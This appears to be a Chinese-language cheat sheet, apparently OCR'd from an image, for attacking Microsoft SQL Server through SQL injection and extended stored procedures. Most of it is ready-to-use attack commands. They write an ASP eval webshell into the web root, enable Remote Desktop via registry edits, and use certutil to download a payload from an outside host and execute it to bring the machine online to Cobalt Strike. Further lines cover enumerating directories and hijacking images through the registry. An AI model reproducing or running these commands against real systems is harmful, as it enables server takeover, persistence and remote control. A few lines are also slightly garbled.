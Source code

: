   #执行系统命令
  exec master..xp_cmdshell 'whoami'
  #查询web根目录路径
  exec master..xp_cmdshell 'where /r c:/ *.asp'
  #利用xp_cmdshell写webshell-->`^`为转义符
  exec master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:/inetpub/wwwroot/shell.asp' -->找web绝对路径可利用where命令和其它扩展存储过程组合利用
  
  #利用xp_cmdshell开启3389
  http://192.168.1.1/Less-1.asp?id=1'exec xp_cmdshell 'REG ADD HKLM/SYSTEM/CurrentControlSet/Control/Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f' --+
  
  #执行命令写入web根目录或者反弹shell
  http://192.168.1.1/Less-1.asp?id=1';exec xp_cmdshell 'systeminfo > c:/inetpub/wwwroot/systeminfo.txt' --+
  
  #执行命令写入webshell
  http://192.168.1.1/Less-1.asp?id=1';exec master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:/inetpub/wwwroot/shell.asp'
  ----------------------------------->xp_cmdshell执行powershell命令上线CS<----------------------------------------------
  
  http://192.168.1.1/Less-1.asp?id=1';exec master..xp_cmdshell 'certutil.exe -f -split -urlcache http://192.168.172.129:9090/payload64.txt c://inetpub//wwwroot//payload1.bat' --+
  
  http://192.168.1.1/Less-1.asp?id=1';exec master..xp_cmdshell 'c://inetpub//wwwroot//payload1.bat' --
  --------------------------------------------------------------------------------------------------------------------
  
  #SharpSQL Tools.exe 利用 xp_cmdshell
  SharpSQLTools.exe 192.168.1.1 tomato tomato master enable_xp_cmdshell
  SharpSQLTools.exe 192.168.1.1 tomato tomato master xp_cmdshell whoami
  
  #删除xp_cmdshell存储过程
  exec sp_addextendedproc xp_cmdshell,@dllname='xplog70.dll' declare @o int;
  sp_addextendedproc 'xp_cmdshell','xpsql70.dll';  --> 若彻底删除C盘删
  
  #查询指定文件夹的文件列表
  exec master..xp_subdirs 'c:/';
  
  #显示当前目录的子目录xp_dirtree
  - directory :第一个参数是要查询的目录
  - depth :第二个参数是显示子目录深度,默认是0,显示所有子目录
  - file :第三个参数是bool类型,指定是否显示子目录中的文件,默认是0,表示不显示任何文件,只显示子目录
  
  exec master..xp_dirtree 'c:/';		//显示c盘所有文件和目录
  exec master..xp_dirtree 'c:/',1';	//显示c盘所有目录
  exec master..xp_dirtree 'c:/',1,1;	//显示指定目录下的目录和文件
  
  #xp_create_subdir创建子目录
  exec master..xp_create_subdir 'c:/test';
  
  #xp_fileexist判断文件是否存在
  exec master..xp_fileexist 'c:/windows/win.ini';
  
  #使用xp_regwrite存储过程对注册表近蜥形修改,替换成任意值,造成镜像劫持
  -前提条件
  - 1.未禁止注册表编辑
  - 2.xp_regwrite启用
  #查看xp_regwrite是否启用
  select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_regwrite';
  
